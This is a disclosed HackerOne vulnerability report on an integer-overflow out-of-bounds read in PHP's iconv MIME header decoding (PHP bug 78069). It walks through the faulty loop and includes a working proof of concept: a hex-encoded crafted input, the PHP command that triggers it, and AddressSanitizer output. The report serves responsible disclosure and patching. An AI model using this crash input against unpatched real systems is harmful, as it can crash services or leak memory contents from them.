 # Out-of-bounds read in iconv.c:_php_iconv_mime_decode() due to integer overflow

## Report Details
- **Report ID**: 593229
- **URL**: https://hackerone.com/reports/593229
- **State**: Closed
- **Severity**: high
- **Submitted**: 2019-05-31T09:58:15.693Z
- **Disclosed**: 2020-10-12T10:51:39.074Z

## Reporter
- **Username**: neural_x
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ibb

## Vulnerability Information
PHP upstream bug report: https://bugs.php.net/bug.php?id=78069

*Description:*
In _php_iconv_mime_decode() function in iconv.c, there's an out-of-bounds read due to an integer overflow vulnerability. MIME encoded string is being parsed and decoded in for loop with following condition:
```
for (str_left = str_nbytes; str_left > 0; str_left--, p1++) {
```
Inside this for loop, it's possible for str_left to be decreased and p1 to be increased at the same time when scan_stat is equal to 2 (i.e. case 2 branch of the switch) and the given character set is unrecognized and ICONV_MIME_DECODE_CONTINUE_ON_ERROR is specified, so it continues to parse the message. It will then try to skip the encoded word by searching for the other two '?' characters while increasing p1 and decreasing str_left:
```
int qmarks = 2;
while (qmarks > 0 && str_left > 1) {
    if (*(++p1) == '?') {
        --qmarks;
    }
    --str_left;
}
```
If the while condition is stopped, it will proceed to the next condition that checks if the next character is '=' and if it is, p1 is increased again and str_left is decreased: 
```
if (*(p1 + 1) == '=') {
    ++p1;
    --str_left;
}
```
However, if the previous while loop was stopped due to str_left being equal to 1, it is now decreased to 0. The encoded string is copied to 'pretval' variable and if it doesn't error out, it will properly set scan_stat and break:
```
scan_stat = 12;
break;
```
The for loop is being run from start again, but before checking the condition 'str_left > 0', it is first decreased. Since it was already equal to 0 and it is defined as size_t (i.e. unsigned integer), it will overflow to very huge positive number. At this point, the code will continue to read from p1 out of bounds and copy it to 'pretval'.

*PoC:*
```
$ echo "53754c743b2020304a70616100000d0d0d0d0d0d0d0d0d6563743a203d3f69730d0d0d0d0d0d0d0d0d0d0d0d0d0d0d6563743a203d3f6973754c743b2020304a70616100000d0d0d0d0d0d0d0d0d6563743a203d3f6f2d383835392d313f713f3c334633463d33463f3da2" | xxd -r -p - > poc

$ sha256sum poc
c471fb3e1511897d3fda9095e0eb85c934532a207f30ac99f0e7d58c42916e4b  poc

$ USE_ZEND_ALLOC=0 sapi/cli/php -r '$hdr = iconv_mime_decode_headers(file_get_contents("poc"),2);'
=================================================================
==26444==ERROR: AddressSanitizer: heap-buffer-overflow on address 0x60d0000005a8 at pc 0x000000a2ee39 bp 0x7ffcc313a470 sp 0x7ffcc313a460
READ of size 1 at 0x60d0000005a8 thread T0
    #0 0xa2ee38 in _php_iconv_mime_decode /home/neural.x/Projects/php-7.3.5/ext/iconv/iconv.c:1965
    #1 0xa332c6 in zif_iconv_mime_decode_headers /home/neural.x/Projects/php-7.3.5/ext/iconv/iconv.c:2409
    #2 0x159adb7 in ZEND_DO_ICALL_SPEC_RETVAL_USED_HANDLER /home/neural.x/Projects/php-7.3.5/Zend/zend_vm_execute.h:690
...
```
This issue affects all current stable releases, namely PHP-7.1.29, PHP-7.2.18, and PHP-7.3.5. Tested on Fedora 28, PHP code was compiled with ASAN. It is possible to observe the bug also with valgrind without the necessity of compilig php with ASAN.

## Impact

Remote attacker can submit specially crafted MIME format message (email) which triggers the vulnerability in the parsing code when decoding MIME headers. Possible impact is crash of the application or even information leak, depending on the further usage of the decoded header since it contains the data from memory outside of allocated string. The exact behaviour depends on the content of the memory after 'str' buffer.

## Attachments
No attachments
